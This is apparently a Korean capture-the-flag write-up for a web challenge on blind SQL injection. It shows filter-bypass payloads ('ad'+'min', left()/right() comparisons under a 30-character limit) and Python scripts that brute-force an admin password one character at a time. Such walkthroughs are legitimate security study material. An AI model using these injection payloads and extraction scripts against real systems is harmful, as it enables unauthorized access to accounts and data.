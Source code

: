 # [WEB] 23

### 초기화면
![초기화면](./img/23_1.png)
어려운 블라인드 sql 인젝션이라고 한다.

---
### 풀이
22번과 다른점은 무엇인가?? 
1. or가 허용
2. admin로그인인데 admin을 못쓰게 함, substring도 필터링
3. 글자수 제한이 있다. 30자이하
![소스코드](./img/23_2.png)
30자를 넘기면 "No hack"이 출력된다.


일단 글자수를 파악한다. admin은 문자열을 쪼개서 우회한다.
즉 다음과 같이 쿼리를 구성한다

`ad'+'min' and len(pw)<13--` 

이런 식으로 22번과 동일하다. 그러면 pw는 12자임을 알 수 있다.

이제 파이썬코드로 비밀번호를 알아내자!
22번에서 사용한 소스코드를 수정해야 한다. 왜냐하면 쿼리가 너무 길고 admin, substring도 필터링된다. 

그래서 left, right 함수를 활용한다.

>left(str,n) : str의 왼쪽에서부터 n글자 잘라내서 반환
>
>right(str,n) : str의 오른쪽에서부터 n글자 잘라내서 반환

```python
for k in range(0, len(wordlist)):
    query = "ad'+'min' and left(pw,1)='"+wordlist[k]+"'--" #
    response = requests.get(url, params={'id': query, 'pw': 'qwerty'}, cookies=cookie)
    
    if "OK" in response.text:
        result += wordlist[k]
        break

print("[!]"+ result + "입니다.")
```
left나 right는 인덱싱으로 접근이 불가능하다. 

그래서 일단 앞글자를 알아낸다.

첫글자는 `v`. 즉 id가 admin인 유저의 패스워트 첫글자가 v라는 것.

그 후 코드를 조금 바꾼다..
```python
result  = "v"
 
 
for i in range(1, 12):
    print('#'+str(i+1))
    for k in range(0, len(wordlist)):
        query = "'or(left(pw,"+str(i+1)+")='"+result+wordlist[k]+"')--" #20+(result+1)
        print(query)
        response = requests.get(url, params={'id': query, 'pw': 'qwerty'}, cookies=cookie)
        
        if "OK" in response.text:
            result += wordlist[k]
            print(result)
            break
 
print("[!]" + " 최종 비밀번호는 " + result + "입니다.")
```
쿼리에서 admin을 없애고 and를 or로 바꿨다.
그리고 left의 반환값을 늘려가며 누적되는 패스워드와 비교연산을 한다.

v로 시작하는 패스워드를 찾아내는 과정이다.
![앞패스워드](./img/23_3.png)

`v3ryhards`라는 결과를 볼 수 있다. 위 코드의 주석처럼 쿼리문만 20글자이고 result와 찾는문자까지 해야 30이 채워진다. 즉 9개만 찾아진 것이다. 나머지 3글자도 찾아야 한다..

이 과정은 right함수를 활용해서 뒤부터 찾아야 한다. 결과만 확인하면
마지막 글자는 `i`이고 코드를 돌려보면
![뒤패스워드](./img/23_4.png)

---

결과들을 종합하면
`v3ryhardsqli`라는 것을 알 수 있다.

---